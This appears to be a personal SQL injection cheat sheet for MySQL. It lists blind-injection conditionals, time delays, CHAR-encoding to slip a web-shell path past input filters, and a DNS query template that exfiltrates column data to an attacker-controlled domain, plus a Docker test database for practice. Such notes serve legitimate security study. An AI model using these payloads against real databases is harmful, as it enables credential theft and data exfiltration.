 # MySQL Database

## Comment Syntax

1. `#`
	* `#COMMENT HERE` 
2. `-- `
	* `-- COMMENT HERE`
	* Note the required whitespace
3. `/* */`
	* `/*COMMENT HERE*/` 

---

## Version Query Syntax

```sql
SELECT @@version
```

```sql
SELECT version()
```

---

## String Concatenation Syntax

```sql
SELECT CONCAT(username, ':', password) FROM users
```

* Takes a variable number of arguments
* Arguments can be column names from the target table or string literals

---

## Cast an Integer into a Character

```sql
-- CHAR($INTEGER)
```

```sql
SELECT path FROM paths WHERE path = CONCAT(CHAR(47),'var',CHAR(47),'www',CHAR(47),'html',CHAR(47),'shell',CHAR(46),'php') -- /var/www/html/shell.php
```

* Especially helpful for bypassing tricky input restrictions on file paths (i.e., no `/`, `\`, and `.` allowed)


---

## Substring Syntax

```sql
SUBSTRING($STRING, $START_INDEX, $LENGTH)
```

```sql
SELECT COUNT(*) FROM users WHERE SUBSTRING(password,1,1) > 'm'
```
* Indices start at 1

---

## Conditional Syntax

```sql
SELECT IF($CONDITION, $VALUE_IF_TRUE, $VALUE_IF_FALSE)
```

```sql
SELECT IF(COUNT(*) = 1, 1, 0) FROM users WHERE username = 'admin' AND password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

Alternatively,

```sql
SELECT CASE WHEN ($CONDITION) THEN $VALUE_IF_TRUE ELSE $VALUE_IF_FALSE END
```

```sql
SELECT CASE WHEN (COUNT(*) = 1) THEN 1 ELSE 0 END FROM users WHERE username = 'admin' and password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

---

## Time delay syntax

[Reference](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Unconditionally wait for 10 seconds

```sql
SELECT sleep(10)
```

### Conditionally wait for 10 seconds

```sql
SELECT IF ($CONDITION$, sleep(10), 'a')
```

---

## DNS Lookup Syntax

```sql
LOAD_FILE('\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## DNS Lookup with Data Exfiltration Syntax

```sql
SELECT $COLUMNS_TO_EXFIL INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## Table enumeration

[[database-enumeration#Querying database tables non-Oracle]]

---

## Table column enumeration

[[database-enumeration#Querying database tables' columns non-Oracle]]

---

## Interact with test database

[Reference](https://hub.docker.com/r/genschsa/mysql-employees)

On a Linux machine with Docker installed, run the `mysql-employees` Docker container.
* Change `$PASSWORD`

```bash
docker run -d -it --rm \
  --name mysql-employees \
  -p 3306:3306 \
  -e MYSQL_ROOT_PASSWORD=blah \
  -v $PWD/data:/var/lib/mysql \
  -v $PWD/mysqld.cnf:/etc/mysql/mysql.conf.d/mysqld.cnf \
  genschsa/mysql-employees
```

Get a shell in the container.

```bash
docker exec -it $CONTAINER_ID /bin/bash
```

In the container, connect to the test MySQL database.

```bash
mysql -u root -p
```

Query away!